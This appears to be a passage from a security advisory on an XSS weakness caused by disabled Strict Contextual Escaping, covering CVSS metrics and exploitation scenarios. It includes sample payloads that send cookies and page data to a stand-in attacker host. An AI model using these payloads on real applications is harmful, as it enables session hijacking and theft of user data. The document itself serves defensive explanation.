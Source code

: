 - **High Attack Complexity (AC:H)**: While the vulnerability itself is straightforward (disabled SCE), successful exploitation requires the attacker to craft specific XSS payloads that target unsanitized inputs within the application. This necessitates knowledge of the application's structure and behavior.

- **No Privileges Required (PR:N)**: The attacker doesn't need any authentication or authorization to exploit this vulnerability, as they can target publicly accessible parts of the application.

- **User Interaction Required (UI:R)**: Successful exploitation typically requires a victim to interact with the application in some way, such as clicking a malicious link or visiting a compromised page.

- **Unchanged Scope (S:U)**: The impact is contained within the vulnerable component (the web application) and doesn't allow the attacker to affect resources beyond the application's security context.

- **High Confidentiality Impact (C:H)**: By executing arbitrary JavaScript in the victim's browser, an attacker could steal session cookies, access sensitive information displayed in the application, or capture user credentials, potentially leading to full account compromise.

- **Low Integrity Impact (I:L)**: The attacker can modify some data within the application's client-side context, but has limited control over what can be modified.

- **No Availability Impact (A:N)**: This vulnerability doesn't significantly impact the availability of the application.

# Exploitation Scenarios
**Scenario 1: Stored XSS via User Profile**
An attacker creates an account on the application and updates their profile information to include malicious JavaScript code in a field like "Bio" or "Description." Since SCE is disabled, when other users view the attacker's profile, the JavaScript executes in their browsers, stealing their session cookies. The attacker then uses these cookies to hijack victims' sessions and access their accounts.

```javascript
// Example of malicious content injected into a profile field
const maliciousPayload = "<img src='x' onerror='fetch(\"https://evil-server.com/steal?cookie=\"+document.cookie)'>";

```

**Scenario 2: Reflected XSS via Search Functionality**
The application includes a search feature that displays the search term on the results page. An attacker crafts a malicious URL containing JavaScript in the search parameter and sends it to potential victims (e.g., via email or social media). When a victim clicks the link, the application reflects the search term without sanitization, executing the embedded JavaScript.

```
https://acme-app.com/search?q=<script>document.location='https://evil-server.com/steal?data='+encodeURIComponent(document.getElementById('sensitive-data').innerText)</script>

```

**Scenario 3: DOM-Based XSS via Hash Fragment**
The application uses hash fragments in URLs to control client-side navigation. An attacker identifies that the application processes these hash values and injects them into the DOM without sanitization. They craft a URL with a malicious hash fragment and distribute it. When victims access this URL, the malicious script executes.
